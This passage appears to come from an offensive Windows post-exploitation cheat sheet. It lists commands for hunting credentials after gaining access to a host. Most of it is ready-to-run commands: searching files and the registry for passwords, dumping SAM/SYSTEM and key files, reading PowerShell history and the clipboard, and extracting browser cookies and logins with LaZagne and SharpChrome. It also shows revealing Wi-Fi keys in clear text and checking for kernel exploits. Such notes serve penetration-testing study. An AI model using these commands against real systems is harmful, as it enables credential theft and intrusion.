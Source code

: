             *   `$credential = Import-Clixml -Path [FILE.xml]`
            *   `$credential.GetNetworkCredential().[username/password]`
        *   File Hunting
            *   Content Search
                *   `findstr /SIM /C:"[password/pass/psw/pwd/credentials][=/:/',/",]" *.[EXT_OR_*]`
            *   Sensitive Files
                *   `dir /s/b /A:-D RDCMan.settings == *.rdp == web.config == *_history* == httpd.conf == .htpasswd == .gitconfig == .git-credentials == Dockerfile == docker-compose.yml == *.db == db.* == accessTokens.json == azureProfile.json == appcmd.exe == scclient.exe == *.gpg$ == *password* == *.pgp$ == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12$ == *.cer$ == known_hosts == *id_rsa* == *id_dsa* == *.ovpn == SiteList.xml == tomcat-users.xml == *.kdbx == *.config == FreeSSHDservice.ini == unattend.* == unattended.* == *.zip == *.rar == *.xls == *.xlsx == *.doc == *.docx == NetSetup.log == *sysprep.inf == *.vnc == *.cred == *sysprep.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == php.ini == https.conf == confCons.xml == SAM == SYSTEM == SECURITY https-xampp.conf == my.ini == creds.* == *credentials* == *password* == pass.* == my.cnf == access.log == error.log == server.xml == Groups.xml == ConsoleHost_history.txt == credentials.db == index.dat == access_tokens.db == legacy_credentials == accessTokens.json == *.bat == _*_.ps1 == id_rsa == *.kbdx == *.sql* == *.sql == pagefile.sys == *.vhd == *.vhdx == *.vmdk == *.ppk == azureProfile.json == iis6.log == AppEvent.Evt == SecEvent.Evt == default.sav == security.sav == software.sav == system.sav == *pass*.txt == *pass*.xml == *pass*.ini == *cred* == shadow == ntuser.dat == bash.exe == wsl.exe 2>nul | findstr /v “.dll”`
        *   Powershell Logging
            *   `dir /a /s /b ConsoleHost_history.txt` / `(Get-PSReadLineOption).HistorySavePath`
            *   `dir C:\Transcripts`
            *   `Get-WinEvent -LogName "windows Powershell" | select -First 15 | Out-GridView`
            *   `Get-WinEvent -LogName "Microsoft-Windows-Powershell/Operational" | select -first 20 | Out-Gridview`
            *   `Get-Clipboard`
        *   Registry Keys
            *   `reg query [HKLM/HKCU] /f [password/pass/pwd] /t REG_SZ /s /[k/d]`
            *   `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`
            *   `reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd"`
            *   `reg query "HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions"`
            *   `reg query "[HKLM/HKCU]\Software\Microsoft\Windows\CurrentVersion\Internet Settings"`
            *   `reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers"`
        *   TeamViewer 
            *   `cd C:\Program Files (x86)\TeamViewer` 
            *   Meterpreter → `post/windows/gather/credentials/teamviewer_passwords`
            *   [Manual Cracking](https://0xdf.gitlab.io/2020/09/05/htb-remote.html)
        *   Browser Sessions
            *   `lazagne.exe browsers`
            *   `SharpChrome.exe logins /unprotect`
            *   `Invoke-SharpChromium -Command "cookies slack.com"`
            *   `copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .`
            *   `python3 cookieextractor.py --dbpath [SQLITE_FILE] --host slack --cookie d`
        *   Backup Drives
            *   `restic.exe -r E:\backup snapshots`
            *   `restic.exe -r E:\backup restore [SNAPSHOT_ID] --target C:\Restored`
            *   `C:\Restored` → Credential Hunting 
        *   WiFI Passwords
            *   `netsh wlan show profile`
            *   `netsh wlan show profile [SSID] key=clear`
        *   Sticky Notes / Clipboard
            *   `c:\Users\[USER]\AppData\Roaming\Microsoft\Sticky Notes`
            *   `cd C:\users && dir /a /s /b *.sqlite`
            *   `Invoke-ClipboardLogger`
        *   [Exchange Inboxes](https://github.com/dafthack/MailSniper)
*   System
    *   OS
        *   Kernel Exploits
            *   `systeminfo` / `wmic qfe list brief`  → [Missing Hotfixes & KB Patches Checker](https://patchchecker.com) / Windows Server ≤ 2019
            *   Watson / WES-NG                                → Exploit Checker Tools